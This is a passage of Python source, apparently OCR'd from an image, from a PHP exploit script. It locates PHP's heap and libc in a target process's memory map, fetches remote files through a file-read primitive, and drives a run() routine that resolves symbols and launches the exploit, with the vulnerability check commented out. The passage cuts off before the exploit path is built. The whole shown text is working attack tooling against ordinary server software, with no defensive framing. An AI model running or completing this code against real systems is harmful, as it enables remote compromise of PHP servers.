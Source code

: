 ~~~ python
        LIBC_FILE = "./libc.so.6"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)
        print(f'HEAP address: {hex(self.info["heap"])}')

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        #self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        print(f'LIBC address: {hex(libc.start)}')
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.remote.data_decode(self.get_file(remote_path))
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using last one)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        #self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

    def build_exploit_path(self) -> str:
~~~